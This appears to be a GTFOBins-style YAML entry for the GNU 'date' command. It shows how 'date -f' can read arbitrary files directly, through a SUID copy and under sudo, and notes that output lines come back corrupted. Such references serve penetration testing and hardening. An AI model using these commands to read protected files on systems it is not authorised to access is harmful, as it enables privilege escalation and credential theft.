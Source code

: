 ```yaml
---
description: |
  Each line is corrupted by a prefix string and wrapped inside quotes, so this may not be suitable for binary files.

  This only works for the GNU variant of `date`.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        date -f $LFILE
  suid-enabled:
    - code: |
        LFILE=file_to_read
        ./date -f $LFILE
  sudo-enabled:
    - code: |
        LFILE=file_to_read
        sudo date -f $LFILE
---
```

